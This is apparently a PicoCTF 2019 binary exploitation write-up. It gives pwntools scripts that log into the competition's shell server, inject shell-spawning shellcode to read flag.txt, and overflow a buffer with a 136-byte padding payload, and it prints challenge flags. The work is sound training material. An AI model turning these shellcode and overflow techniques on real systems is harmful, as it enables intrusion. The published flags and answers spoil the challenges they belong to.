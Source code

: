 # PicoCTF 2019(Binary Exploitation)

<small> [ Write-Up ] </small>
<hr>

<h5> handy-shellcode - 50pt </h5>
<p> This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5 on the shell server. Source. </p>

```py
#!/usr/bin/python
  
from pwn import *

user = '****'
pw = '****'

r = ssh(host='2019webshell1.picoctf.com',user=user, password=pw)
r.set_working_directory('/problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5')

p = r.process('./vuln')

shellcode = asm(shellcraft.i386.linux.sh())

p.sendline(shellcode)

p.sendline("cat flag.txt")

print p.recv()
```
<strong> Flag : picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487 </strong>
<hr>

<h5> practice-run-1 - 50pt </h5>
<p> You're going to need to know how to run programs if you're going to get out of here. Navigate to /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e on the shell server and run this program to receive a flag. </p>

```
./run_this
```
<strong> Flag : picoCTF{g3t_r3adY_2_r3v3r53} </strong>
<hr>

<h5> OverFlow 0 - 100pt </h5>
<p> This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in /problems/overflow-0_0_6d0c88d7d40bc281760b515cb6a4660a on the shell server. Source. </p>

```py
#!/usr/bin/python
  
from pwn import *

user = '****'
pw = '****'

r = ssh(host='2019webshell1.picoctf.com',user=user, password=pw)
r.set_working_directory('/problems/overflow-0_0_6d0c88d7d40bc281760b515cb6a4660a')

p = r.process('./vuln')

payload = "A"*136 # Memory + SFP + RET

p.sendline(payload)

```